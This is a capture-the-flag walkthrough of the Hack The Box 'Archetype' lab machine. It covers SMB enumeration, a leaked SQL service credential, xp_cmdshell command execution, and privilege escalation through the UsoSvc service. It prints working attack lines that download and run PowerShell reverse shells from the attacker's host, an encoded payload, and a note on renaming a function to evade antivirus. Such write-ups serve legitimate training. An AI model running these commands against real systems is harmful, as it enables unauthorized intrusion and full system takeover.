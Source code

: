 # HacktheBox - Archetype Writeup


Box author | {{< person url="https://app.hackthebox.com/users/1190" name="egre55" picture="https://www.hackthebox.com/storage/avatars/a9527867b56b74bd7de6f0b940a04916.png" >}}

<!--more-->

## Enumeration

- 1000 ports scan
```bash
nmap -sC -sV -oN nmap/initial 10.10.10.27
```

![initial nmap scan](1.png "initial nmap scan")

- all ports scan

![full nmap scan](2.png "full nmap scan")

### Open ports
- 135 (msrpc)
- 139 (smb 4 sure)
- 445 (smb 4 sure)
- 1433 (ms-sql-s/Microsoft SQL Server)

## SMB Enum

### CrackMapEXEC

![crackmapexec](3.png "crackmapexec")

### smbclient

![smbclient](4.png "smbclient")

wow `backups` shares. Let's try connect to it.

![backup shares](5.png "backup shares")

- download the file using the `get command`

### prod.dtsConfig
- content of the file

```perl
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```
we've got the credentials

- `ARCHETYPE\sql_svc:M3g4c0rp123`

## Foothold/Gaining Access

### mssqlclient.py[Impacket]

- mssqlclient syntax

```bash
mssqlclient.py <UserID>@<IP addr> -windows-auth
```

![mssqlclient](6.png "mssqlclient")

- always do this after login `enable_xp_cmdshell`
- let's try run `whoami`

![xp_cmdshell whoami](7.png "xp_cmdshell whoami")

- Note: I'm using `xp_cmdshell` then `whoami`

### Nishang

{{< admonition tip "Nishang" >}}
[Nishang](https://github.com/samratashok/nishang) is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming.
{{< /admonition >}}

- I'm gonna copy the `Invoke-PowerShellTcp.ps1` into my `www` directory. Then, rename it to `rev.ps1`

![copy PowerShellTcp.ps1](8.png "copy PowerShellTcp.ps1")

- Open the `rev.ps1` file and pick one of the example. Then `copy` and `paste` it on the last line of the code.

{{< admonition tip >}}
Make sure! change the ip and port
{{< /admonition >}}


![PowerShellTcp.ps1 example](9.png "PowerShellTcp.ps1 example") _examples_

![modify PowerShellTcp.ps1](10.png "modify PowerShellTcp.ps1") <br>_put in here and save it_

- Time to upload the script into the machine by using `mssqlclient.py` that we connected.
	-	I'm gonna run `python server` inside `www` directory.
	-	`python3 -m http.server`
	- Then try to uploaded using this command:
		- `xp_cmdshell powershell IEX(New-Object Net.WebClient).DownloadString(\"http://10.10.16.13:8000/rev.ps1\")`  
	- And this happen

![blocked by AV](11.png "blocked by AV") <br>  _it says this script got blocked by antivirus because of this function_

- So, I change the function into something else. It works.


![execute again](12.png "execute again")

## User flag

![user flag](14.png "user flag")

### WinPEAS

- Upload the winpeas binary into the machine
- I'm gonna use `powershell` to know this machine `architecture`
  - by using this command:
    - `(wmic os get OSArchitecture)[2]`

![check OSArchitecture](13.png "check OSArchitecture")

- This machine is 64-bit. I'm gonna upload `WinPEAS 64-bit version` to work.

- I'm gonna `copy` and `paste` the `WinPEAS` binary into my `www` folder.
- Let's upload it by using this command:
    - `IWR http://10.10.16.13:8000/winPEASx64.exe -OutFile winpeas.exe`

![download WinPEAS](15.png "download WinPEAS")

- Then run it by using this command `.\winpeas.exe`

## Privilege Escalation

### UsoSvc

- `WinPEAS` just found this juicy stuff:

![UsoSVC modify services](16.png "UsoSVC modify services")

### Modify service binary path
- According this [link](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services)
> If the group "Authenticated users" has *<font color="red">SERVICE\_ALL\_ACCESS</font>* in a service, then it can <font color="yellow">modify the binary</font> that is being executed by the service.

---

### Encoded Command
-  Here is the script before Encoded
```powershell
IEX(IWR http://10.10.16.13:8000/zzz.ps1 -UseBasicParsing)
```
- Time to encoded
```bash
echo "IEX(IWR http://10.10.16.13:8000/zzz.ps1 -UseBasicParsing)" | iconv -t utf-16le | base64 -w 0
```
- First, It's gonna encoded into `utf-16le`
- Second, It's gonna encoded into `base64`
- Sources [IppSec](https://youtu.be/iyYqgseKUPM?t=2299)

---

- So, I'm gonna `copy` another `powershell reverse shell` by name it into `zzz.ps1`
- Then upload it using this command:
```powershell
sc.exe config UsoSvc binpath="cmd.exe /c powershell.exe -EncodedCommand SQBFAFgAKABJAFcAUgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA2AC4AMQAzADoAOAAwADAAMAAvAHoAegB6AC4AcABzADEAIAAtAFUAcwBlAEIAYQBzAGkAYwBQAGEAcgBzAGkAbgBnACkACgA="
```

- After that, run this command `sc.exe start UsoSvc`

![create a service](17.png "create a service")


![catch the shell](18.png "catch the shell") <br> _we've got the reverse shell and become system!_

## Administrator Flag

![administrator flag](19.png "administrator flag")

## Conclusion
I’ve learned a lot of tools today and `how to do a PowerShell reverse shell`. Ngl, this is a really fun box. I feel like my brain want to explode

I have a fun time doing this machine and I hope you guys too. Bye ;)
